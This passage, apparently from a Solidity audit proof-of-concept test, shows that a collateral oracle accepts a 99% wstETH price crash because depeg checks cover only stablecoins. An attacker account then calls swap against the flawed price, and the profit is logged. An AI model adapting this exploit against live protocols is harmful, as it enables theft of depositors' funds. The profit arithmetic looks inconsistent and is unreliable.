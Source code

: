 ```solidity
        uint256 newWstEthPrice = classicalOracle.getPrice(address(_mockWstEth));
        console.log("New wstETH price after crash: $", newWstEthPrice / 1e18);
        uint256 crashPercentage = ((initialWstEthPrice - newWstEthPrice) * 100) / initialWstEthPrice;
        console.log("Price crash magnitude:", crashPercentage, "% decrease");
        console.log(" Price crash simulated successfully");
        console.log("");

        console.log("--- Phase 3: Oracle Verification (Critical Vulnerability) ---");
        // Oracle should accept the crashed price without reverting (because it's NOT a stablecoin)
        uint256 priceAfterCrashOracle = classicalOracle.getPrice(address(_mockWstEth));
        uint256 normalizedCrashedWstEthPrice = Normalize.tokenAmountToDecimals(
            crashedWstEthPriceRaw, uint8(_PRICE_FEED_DECIMALS_WSTETH), uint8(_ORACLE_PRICE_PRECISION)
        );
        
        console.log("CRITICAL: Oracle accepts extreme wstETH crash:");
        console.log("99% price crash accepted without revert");
        console.log("Reason: Depeg threshold only applies to stablecoins");
        console.log("wstETH is marked as non-stablecoin, bypassing all protection");
        assertEq(priceAfterCrashOracle, normalizedCrashedWstEthPrice, "Oracle should accept crashed wstETH price");
        console.log(" Oracle vulnerability confirmed");
        console.log("");

        console.log("--- Phase 4: Execute Exploit ---");
        uint256 amountToDepositWstEth = 10 * (10**18); // 10 wstETH
        
        // Get initial balances
        uint256 attackerEth0BalanceBefore = eth0.balanceOf(_attacker);
        uint256 attackerWstEthBalanceBefore = _mockWstEth.balanceOf(_attacker);
        console.log("Attacker depositing wstETH amount:", amountToDepositWstEth / 1e18, "wstETH");
        console.log("At crashed price of: $", newWstEthPrice / 1e18, "per wstETH");
        
        uint256 expectedEth0Output = Math.mulDiv(amountToDepositWstEth, priceAfterCrashOracle, (10**_ORACLE_PRICE_PRECISION));
        console.log("Expected ETH0 output (using crashed price):", expectedEth0Output / 1e18, "ETH0");

        // Execute the exploit
        vm.startPrank(_attacker);
        _daoCollateralPoc.swap(address(_mockWstEth), amountToDepositWstEth, 0);
        vm.stopPrank();
        
        uint256 attackerEth0BalanceAfter = eth0.balanceOf(_attacker);
        uint256 attackerWstEthBalanceAfter = _mockWstEth.balanceOf(_attacker);
        console.log(" Exploit transaction executed successfully");
        console.log("");

        console.log("--- Phase 5: Quantify Exploit Impact ---");
        uint256 eth0Gained = attackerEth0BalanceAfter - attackerEth0BalanceBefore;
        uint256 wstEthSpent = attackerWstEthBalanceBefore - attackerWstEthBalanceAfter;
        
        console.log("=== EXPLOIT RESULTS ===");
        console.log("wstETH spent:", wstEthSpent / 1e18, "wstETH");
        console.log("ETH0 received:", eth0Gained / 1e18, "ETH0");

        // Calculate financial impact
        uint256 fairValueWstEth = wstEthSpent * 3000; // Fair value at $3000 per wstETH
        uint256 actualValueEth0 = eth0Gained * 1; // ETH0 should be worth $1
        uint256 attackerProfit = fairValueWstEth - actualValueEth0;
        
        console.log("");
```